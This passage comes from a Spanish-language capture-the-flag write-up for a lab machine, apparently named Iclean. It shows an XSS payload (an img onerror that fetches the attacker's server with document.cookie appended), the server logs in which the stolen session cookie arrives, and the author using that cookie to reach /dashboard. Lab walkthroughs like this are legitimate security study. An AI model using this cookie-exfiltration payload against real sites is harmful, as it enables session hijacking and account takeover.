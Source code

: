 Veo que recibo la petición por mi servidor de python
```bash
❯ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.12 - - [01/Aug/2024 11:56:37] "GET / HTTP/1.1" 200 -
10.10.11.12 - - [01/Aug/2024 11:57:37] "GET / HTTP/1.1" 200 -
```
Como no tengo credenciales para autenticarme en el panel de login, y veo un dashboard voy a intentar robar la cookie de sesion con el siguiente payload
```js
<img src=x onerror=fetch("http://10.10.16.51:8001/"+document.cookie);>
```
![Cookie](../assets/images-Iclean/Iclean6.png)

Con esto obtengo la cookie de sesion
```bash
❯ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.12 - - [01/Aug/2024 12:02:17] code 404, message File not found
10.10.11.12 - - [01/Aug/2024 12:02:17] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqteSA.TCKarH_o8Sp_WiMbgkdBwECDMmo HTTP/1.1" 404 -
10.10.11.12 - - [01/Aug/2024 12:02:57] code 404, message File not found
10.10.11.12 - - [01/Aug/2024 12:02:57] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqteSA.TCKarH_o8Sp_WiMbgkdBwECDMmo HTTP/1.1" 404 -
```
Añado esta cookie en cookie_editor e ingresamos a /dashboard

![dashboard](../assets/images-Iclean/Iclean7.png)
